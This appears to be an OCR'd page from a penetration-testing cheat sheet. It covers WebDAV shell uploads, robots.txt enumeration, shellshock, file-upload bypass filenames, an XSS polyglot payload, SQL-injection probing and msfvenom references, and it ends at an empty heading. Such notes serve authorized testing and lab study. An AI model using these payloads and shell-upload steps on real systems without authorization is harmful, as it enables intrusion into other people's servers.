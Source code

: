 #### WebDAV
If it is WebDav enabled (Look for GET, PUT, MOVE methods allowed)
```
cadaver $IP
```
And upload your shell by `PUT` ing it in there.

#### robots.txt
Browse to 
```
http://$ip/robots.txt
```
and see if there are any interesting directories.

#### CGI Files
If you found any files, maybe vulnerable to shellshock.
https://github.com/mubix/shellshocker-pocs/blob/master/shell_shocker.py

#### File Upload Bypass

```
.jpg.php
shell.php%00.jpg
shell.asp;jpg
shell.phtml
```
#### XSS 

Basic XSS
```
<alert>(1)</alert>
```

XSS polyglot
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

#### SQL Injection

Make sure you put `'` on any input field to invoke errors that could lead to information disclosure.
Things like version numbers from verbose error output may help in exploitation!

* Manual: https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
* SQLMAP: https://hackertarget.com/sqlmap-tutorial/


### msfvenom payloads
---
Use this for webshells, binaries, etc.
https://nitesculucian.github.io/2018/07/24/msfvenom-cheat-sheet/


### Interacting with Services
---
